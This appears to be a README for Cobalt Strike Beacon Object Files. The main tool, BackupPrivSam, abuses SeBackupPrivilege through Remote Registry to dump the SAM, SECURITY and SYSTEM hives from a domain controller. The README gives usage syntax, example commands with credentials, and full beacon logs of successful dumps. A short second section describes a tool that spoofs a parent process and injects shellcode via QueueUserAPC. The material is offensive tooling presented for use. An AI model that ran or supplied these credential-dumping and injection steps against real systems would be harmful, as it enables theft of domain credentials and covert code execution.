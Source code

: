 # BackupPrivSam

A basic implementation of abusing the `SeBackupPrivilege` via Remote Registry dumping to dump the remote SAM SECURITY AND SYSTEM hives.

Inspired by https://twitter.com/filip_dragovic initial PoC. Just made it into a BOF.

Could be improved to auto download the hives. CBA

## Usage

```
BackupPrivSAM [\\computername] [save path] (optional: [domain] [username] [password])
```

1. Dump the Hives to remote C:\ drive, using the current Primary Token

    `BackupPrivSAM \\dc01.contoso.local C:\`

2. Dump the Hives to remote C:\ drive, and impersonate a user

    `BackupPrivSAM \\dc01.contoso.local C:\ CONTOSO backup_service Password123`


## With Impersonation (SeBackupPrivilege enabled account)

```
beacon> backupPrivSAM \\cdc001.corp.contoso.local C:\ CORP backup_service *************
[*] Launching backupPrivSAM...
[+] host called home, sent: 2589 bytes
[+] received output:
Got Credentials. Making Token...
[+] received output:
Impersonated user: CORP\backup_service
[+] received output:
Will try to dump SAM from \\cdc001.corp.contoso.local\HKLM\ into folder 'C:\'
[+] received output:
Connecting to remote registry of '\\cdc001.corp.contoso.local'
[+] received output:
RegConnectRegistryW() - OK
[+] received output:
Dumping \\cdc001.corp.contoso.local\HKLM\SAM hive to C:\SAM
[+] received output:
Dumping \\cdc001.corp.contoso.local\HKLM\SYSTEM hive to C:\SYSTEM
[+] received output:
Dumping \\cdc001.corp.contoso.local\HKLM\SECURITY hive to C:\SECURITY

beacon> ls \\cdc001\C$
[*] Tasked beacon to list files in \\cdc001\C$
[+] host called home, sent: 29 bytes
[*] Listing: \\cdc001\C$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     04/29/2019 01:27:26   $Recycle.Bin
          dir     04/27/2019 16:32:36   Documents and Settings
          dir     05/05/2019 17:53:11   PerfLogs
          dir     11/20/2019 11:30:27   Program Files
          dir     04/28/2019 17:45:56   Program Files (x86)
          dir     08/17/2021 21:09:38   ProgramData
          dir     04/27/2019 16:32:36   Recovery
          dir     04/28/2019 17:46:10   System Volume Information
          dir     04/29/2019 01:26:56   Users
          dir     10/02/2021 19:27:55   Windows
 380kb    fil     11/21/2016 00:42:45   bootmgr
 1b       fil     07/16/2016 14:18:08   BOOTNXT
 1gb      fil     07/19/2022 17:45:55   pagefile.sys
 52kb     fil     07/23/2022 21:23:45   SAM
 32kb     fil     07/23/2022 21:23:45   SECURITY
 17mb     fil     07/23/2022 21:23:45   SYSTEM
```

## Without impersonation

```
beacon> make_token CORP\backup_service **********
[*] Tasked beacon to create a token for CORP\backup_service
[+] host called home, sent: 59 bytes
[+] Impersonated CORP\Administrator

beacon> backupPrivSAM \\cdc001.corp.contoso.local C:\
[*] Launching backupPrivSAM...
[+] host called home, sent: 2511 bytes
[+] received output:
Will try to dump SAM from \\cdc001.corp.contoso.local\HKLM\ into folder 'C:\'
[+] received output:
Connecting to remote registry of '\\cdc001.corp.contoso.local'
[+] received output:
RegConnectRegistryW() - OK
[+] received output:
Dumping \\cdc001.corp.contoso.local\HKLM\SAM hive to C:\SAM
[+] received output:
Dumping \\cdc001.corp.contoso.local\HKLM\SYSTEM hive to C:\SYSTEM
[+] received output:
Dumping \\cdc001.corp.contoso.local\HKLM\SECURITY hive to C:\SECURITY

beacon> ls \\cdc001\C$
[*] Tasked beacon to list files in \\cdc001\C$
[+] host called home, sent: 29 bytes
[*] Listing: \\cdc001\C$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     04/29/2019 01:27:26   $Recycle.Bin
          dir     04/27/2019 16:32:36   Documents and Settings
          dir     05/05/2019 17:53:11   PerfLogs
          dir     11/20/2019 11:30:27   Program Files
          dir     04/28/2019 17:45:56   Program Files (x86)
          dir     08/17/2021 21:09:38   ProgramData
          dir     04/27/2019 16:32:36   Recovery
          dir     04/28/2019 17:46:10   System Volume Information
          dir     04/29/2019 01:26:56   Users
          dir     10/02/2021 19:27:55   Windows
 380kb    fil     11/21/2016 00:42:45   bootmgr
 1b       fil     07/16/2016 14:18:08   BOOTNXT
 1gb      fil     07/19/2022 17:45:55   pagefile.sys
 52kb     fil     07/23/2022 21:24:06   SAM
 32kb     fil     07/23/2022 21:24:07   SECURITY
 17mb     fil     07/23/2022 21:24:07   SYSTEM
```

# QueueUserAPC_PPID

> queueuserapc_ppid/

BOF spawns a process of your choice under a specified parent, and injects a provided shellcode file via QueueUserAPC().

![](queueuserapc_ppid.gif)
